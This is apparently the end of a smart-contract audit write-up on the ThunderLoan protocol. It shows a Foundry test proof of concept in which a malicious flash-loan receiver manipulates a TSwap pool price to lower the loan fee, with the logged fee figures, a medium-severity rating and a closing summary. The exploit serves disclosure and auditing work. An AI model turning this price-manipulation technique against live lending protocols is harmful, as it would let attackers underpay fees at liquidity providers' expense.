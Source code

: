 ```javascript
        tokenA.mint(liquidityProvider, 100e18);
        tokenA.approve(address(tswapPool), 100e18);
        weth.mint(liquidityProvider, 100e18);
        weth.approve(address(tswapPool), 100e18);
        BuffMockTSwap(tswapPool).deposit(100e18, 100e18, 100e18, block.timestamp);
        // Pool now has 100 WETH and 100 TokenA = 1:1 ratio
        vm.stopPrank();

        // Deposit to ThunderLoan
        vm.prank(thunderLoan.owner());
        thunderLoan.setAllowedToken(tokenA, true);
        vm.startPrank(liquidityProvider);
        tokenA.mint(liquidityProvider, 1000e18);
        tokenA.approve(address(thunderLoan), 1000e18);
        thunderLoan.deposit(tokenA, 1000e18);
        // Pool still 100 WETH & 100 TokenA; ThunderLoan has 1000 TokenA
        vm.stopPrank();

        uint256 normalFee = thunderLoan.getCalculatedFee(tokenA, 100e18);
        console2.log("normalFee is: ", normalFee);

        uint256 amountToBorrow = 50e18;
        MaliciousFlashLoanReceiver flr = new MaliciousFlashLoanReceiver(address(tswapPool), address(thunderLoan), address(thunderLoan.getAssetFromToken(tokenA)));

        vm.startPrank(user);
        tokenA.mint(address(flr), 100e18);
        thunderLoan.flashloan(address(flr), tokenA, amountToBorrow, "");
        vm.stopPrank();

        uint256 attackFee = flr.feeOne() + flr.feeTwo();
        console2.log("attackFee is: ", attackFee);
        assert(attackFee < normalFee);
    }
```


```shell
Logs:
  normalFee is:  296147410319118389
  attackFee is:  214167600932190305
```


Results show actual fee is much lower than expected due to price manipulation. However, as only the fee is affected and not the pool balance, the risk is medium at most.

# Summary

This contract audit is relatively difficult because of the abundant contract code and its integration with `TSwap`. Beyond exploit code, no suspicious detail or variable should be overlooked during auditing, as each line might unpredictably affect the contract. This article only covers high-risk and medium-risk vulnerabilities. I have uploaded all other review content [here](https://github.com/pureGavin/codehawks/blob/main/ThunderLoan/report.pdf).
